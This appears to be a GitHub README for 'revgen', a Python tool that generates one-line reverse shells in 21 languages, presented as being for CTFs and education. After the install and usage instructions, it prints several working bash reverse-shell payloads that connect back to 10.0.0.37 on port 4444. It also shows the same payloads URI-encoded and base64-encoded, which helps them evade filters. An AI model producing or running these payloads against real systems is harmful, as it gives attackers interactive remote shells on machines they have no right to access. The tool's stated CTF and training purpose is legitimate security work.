 # The One-Liner Reverse Shell Generator 

> [!WARNING]\
LEGAL DISCLAIMER:\
This tool is STRICTLY for EDUCATIONAL PURPOSES ONLY!\
Usage of this tool for attacking targets without prior mutual consent is ILLEGAL.\
It is the user's responsibility to obey all laws that apply whilst using this tool.\
The developer of this tool assumes no liability and is not responsible for any misuse  or damage caused by this program.

## What is revgen?
Revgen is a simple script written in Python, used to generate one-line reverse shells. Perfect for use in CTFs.

## How does it work?
The script contains a dictionary data structure containing multiple different programming, scripting and executable languages as **keys** with corresponding reverse shells as **values**.

The script also allows for encoding the reverse shell scripts. The options are **URI Encoding** and **Base64** encoding.

## Features
**revgen** includes reverse shells for **21** different programming, scripting, and executable languages.

#### Reverse Shell Formats and Number of Reverse Shells:
- **bash** = 5
- **nc** = 4
- **ncat** = 2
- **curl** = 1
- **rustcat** = 1
- **Perl** = 2
- **PHP** = 7
- **Python** = 5
- **Ruby** = 2
- **socat** = 2
- **sqlite3** = 1
- **Node.JS** = 1
- **groovy** = 1
- **telnet** = 1
- **zsh** = 2
- **lua** = 2
- **golang** = 1
- **vlang** = 1
- **awk** = 1
- **crystal** = 1
- **powershell** = 4

## Installation
1. Make the **installer.sh** script executable:\
   `chmod +x installer.sh`

2. Run the **installer.sh** script:\
`./installer.sh`\
If the script gets a **permission denied** error, then it should be run as root or using sudo:\
`sudo ./installer.sh`

3. If the **installer.sh** script runs successfully, then the **revgen** script should be callable through the command line.

> If you attempt to call the script by running the command `revgen` and it fails, then you should make sure that the directory `/usr/local/bin` is in your **PATH environment variable**.

## Usage
### Basic Usage:
Generate reverse shells for a specified IP address, port and format:\
`revgen -l <IP_ADDRESS> -p <PORT> -f <REVERSE_SHELL_FORMAT>`

Example:\
`revgen -l 10.0.0.37 -p 4444 -f bash`

### Advanced Usage:
Generate reverse shells for a specified IP address, port and format, with encoding:\
`revgen -l <IP_ADDRESS> -p <PORT> -f <REVERSE_SHELL_FORMAT> -e <ENCODING>`

#### URI Encoded Payload:
Example:\
`revgen -l 10.0.0.37 -p 4444 -f bash -e U`

#### Base64 Encoded Payload:
Example:\
`revgen -l 10.0.0.37 -p 4444 -f bash -e B`

##### Expected Normal Output:
```
$ revgen -l 10.0.0.37 -p 4444 -f bash

Bash -i
-------------------------
bash -i >& /dev/tcp/10.0.0.37/4444 0>&1

Bash 196
-------------------------
0<&196;exec 196<>/dev/tcp/10.0.0.37/4444; bash <&196 >&196 2>&196

Bash read line
-------------------------
exec 5<>/dev/tcp/10.0.0.37/4444;cat <&5 | while read line; do $line 2>&5 >&5; done

Bash 5
-------------------------
bash -i 5<> /dev/tcp/10.0.0.37/4444 0<&5 1>&5 2>&5

Bash UDP
-------------------------
bash -i >& /dev/udp/10.0.0.37/4444 0>&1
```

##### With URI Encoding:
```
$ revgen -l 10.0.0.37 -p 4444 -f bash -e U

Bash -i
-------------------------
bash%20-i%20%3E%26%20/dev/tcp/10.0.0.37/4444%200%3E%261

Bash 196
-------------------------
0%3C%26196%3Bexec%20196%3C%3E/dev/tcp/10.0.0.37/4444%3B%20bash%20%3C%26196%20%3E%26196%202%3E%26196

Bash read line
-------------------------
exec%205%3C%3E/dev/tcp/10.0.0.37/4444%3Bcat%20%3C%265%20%7C%20while%20read%20line%3B%20do%20%24line%202%3E%265%20%3E%265%3B%20done

Bash 5
-------------------------
bash%20-i%205%3C%3E%20/dev/tcp/10.0.0.37/4444%200%3C%265%201%3E%265%202%3E%265

Bash UDP
-------------------------
bash%20-i%20%3E%26%20/dev/udp/10.0.0.37/4444%200%3E%261
```

##### With Base64 Encoding:
```
$ revgen -l 10.0.0.37 -p 4444 -f bash -e B

Bash -i
-------------------------
YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4wLjAuMzcvNDQ0NCAwPiYx

Bash 196
-------------------------
MDwmMTk2O2V4ZWMgMTk2PD4vZGV2L3RjcC8xMC4wLjAuMzcvNDQ0NDsgYmFzaCA8JjE5NiA+JjE5NiAyPiYxOTY=

Bash read line
-------------------------
ZXhlYyA1PD4vZGV2L3RjcC8xMC4wLjAuMzcvNDQ0NDtjYXQgPCY1IHwgd2hpbGUgcmVhZCBsaW5lOyBkbyAkbGluZSAyPiY1ID4mNTsgZG9uZQ==

Bash 5
-------------------------
YmFzaCAtaSA1PD4gL2Rldi90Y3AvMTAuMC4wLjM3LzQ0NDQgMDwmNSAxPiY1IDI+JjU=

Bash UDP
-------------------------
YmFzaCAtaSA+JiAvZGV2L3VkcC8xMC4wLjAuMzcvNDQ0NCAwPiYx
```

